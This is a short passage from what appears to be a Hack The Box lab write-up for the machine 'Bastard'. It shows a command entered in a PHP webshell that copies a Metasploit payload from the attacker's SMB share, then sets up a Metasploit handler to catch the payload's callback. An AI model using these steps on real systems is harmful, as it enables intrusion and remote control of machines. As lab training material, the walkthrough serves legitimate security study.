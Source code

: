 Now that the smb server is running we can enter `copy \\10.10.14.23\evilshare\msf.exe msf.exe` into our PHP webshell.

![smb-2](/images/hackthebox-writeups/bastard/smb-2.png)

We can then open Metasploit console and use `exploit/multi/handler` to recieve the callback from our payload

![msf-2](/images/hackthebox-writeups/bastard/msf-2.png)
